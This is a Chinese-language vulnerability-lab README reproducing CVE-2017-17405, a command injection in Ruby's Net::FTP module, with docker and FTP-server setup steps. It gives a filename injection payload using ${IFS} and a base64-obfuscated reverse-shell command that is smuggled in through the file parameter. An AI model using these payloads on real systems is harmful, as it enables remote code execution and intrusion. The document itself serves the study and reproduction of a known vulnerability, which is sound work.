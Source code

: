 # Ruby Net::FTP 模块命令注入漏洞（CVE-2017-17405）

Ruby Net::FTP 模块是一个FTP客户端，在上传和下载文件的过程中，打开本地文件时使用了`open`函数。而在ruby中，`open`函数是借用系统命令来打开文件，且没用过滤shell字符，导致在用户控制文件名的情况下，将可以注入任意命令。

## 环境搭建

编译及运行漏洞环境：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/`将可以看到一个HTTP服务。这个HTTP服务的作用是，我们访问`http://your-ip:8080/download?uri=ftp://example.com:2121/&file=vulhub.txt`，它会从example.com:2121这个ftp服务端下载文件vulhub.txt到本地，并将内容返回给用户。

## 漏洞复现

因为这是一个FTP客户端的漏洞，所以我们需要先运行一个可以被访问到的服务端。比如使用python：

```
# 安装pyftpdlib
pip install pyftpdlib

# 在当前目录下启动一个ftp服务器，默认监听在`0.0.0.0:2121`端口
python3 -m pyftpdlib -p 2121 -i 0.0.0.0
```

然后即可开始利用漏洞。注入命令`|touch${IFS}success.txt`（空格用`${IFS}`代替，原因不表），发送如下数据包即可（其中uri指定的ftp服务器就是我用python运行的一个简单的ftp server，其中无需放置任何文件）：

![](1.png)

然后进入docker容器内，可见success.txt已被创建：

![](2.png)

执行反弹shell的命令`|bash${IFS}-c${IFS}'{echo,YmFzaCAtaSA...}|{base64,-d}|{bash,-i}'`，成功反弹：

![](3.png)